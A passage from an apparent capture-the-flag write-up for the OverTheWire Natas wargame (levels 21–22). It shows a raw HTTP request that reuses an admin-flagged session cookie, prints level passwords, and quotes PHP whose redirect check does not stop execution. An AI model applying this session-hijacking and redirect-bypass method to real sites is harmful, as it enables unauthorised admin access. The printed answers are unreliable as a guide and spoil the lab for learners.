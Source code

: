 This means that our PHPSESSID now has admin=1

If we send a request to the main page with below PHPSESSID we will pass the admin check.  
PHPSESSID=kvklchlc4spv0iu9i6a5a4g2b7

```text
GET /index.php HTTP/1.1
Host: natas21.natas.labs.overthewire.org
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:69.0) Gecko/20100101 Firefox/69.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Authorization: Basic bmF0YXMyMTpJRmVrUHlyUVhmdHppREVzVXIzeDIxc1l1YWh5cGRnSg==
Connection: close
Cookie: __cfduid=dc2e23c92b1d237ff6fcd21eeaace26841568619071; __utma=176859643.1037695426.1568619071.1568619071.1568619071.1; __utmz=176859643.1568619071.1.1.utmcsr=(direct)|utmccn=(direct)|utmcmd=(none); PHPSESSID=kvklchlc4spv0iu9i6a5a4g2b7
Upgrade-Insecure-Requests: 1

You are an admin. The credentials for the next level are:<br><pre>Username: natas22
Password: chG9fbe1Tq2eWVMgjYYD1MsfIvN461kJ</pre>
```

chG9fbe1Tq2eWVMgjYYD1MsfIvN461kJ

### natas23

```php
<?
session_start();

if(array_key_exists("revelio", $_GET)) {
    // only admins can reveal the password
    if(!($_SESSION and array_key_exists("admin", $_SESSION) and $_SESSION["admin"] == 1)) {
    header("Location: /");
    }
}
?>

<?
    if(array_key_exists("revelio", $_GET)) {
    print "You are an admin. The credentials for the next level are:<br>";
    print "<pre>Username: natas23\n";
    print "Password: <censored></pre>";
    }
?>
```

If revelio is in $\_GET and admin is not set add a location header. This will result in a 302 redirect. Then, if revelio is in the $\_GET request show the password.

We can set revelio with teh following params.  
natas22.natas.labs.overthewire.org/?revelio=a

but if we do we get redirected.
